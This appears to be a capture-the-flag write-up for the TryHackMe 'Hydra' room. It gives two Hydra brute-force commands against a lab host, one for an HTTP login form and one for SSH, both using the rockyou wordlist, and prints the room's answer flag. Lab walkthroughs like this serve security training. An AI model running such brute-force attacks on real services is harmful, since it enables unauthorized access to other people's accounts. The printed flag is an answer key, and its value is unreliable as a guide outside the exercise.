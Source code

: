 # <div align="center">[Hydra](https://tryhackme.com/r/room/hydra)</div>


# Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -t 50
```
```
THM{2673a7dd116de68e85c48ec0b1f2612e
```



```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 50 
```
